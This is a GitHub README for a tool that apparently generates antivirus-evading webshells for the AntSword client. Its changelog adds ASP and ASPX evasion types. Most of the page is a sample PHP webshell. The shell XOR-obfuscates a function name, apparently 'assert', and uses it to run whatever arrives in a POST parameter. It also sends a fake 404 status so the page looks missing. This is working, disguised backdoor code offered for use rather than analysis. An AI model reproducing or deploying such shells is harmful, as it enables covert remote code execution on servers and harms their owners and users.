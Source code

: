 # as_webshell_venom
as_webshell_venom蚁剑版 (thx @SardineFish & @Medicean)


原项目地址:
https://github.com/yzddmr6/webshell-venom

#  2.0 更新日志

1. 代码重构

2. 增加 asp aspx 免杀类型

### 生成 php Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
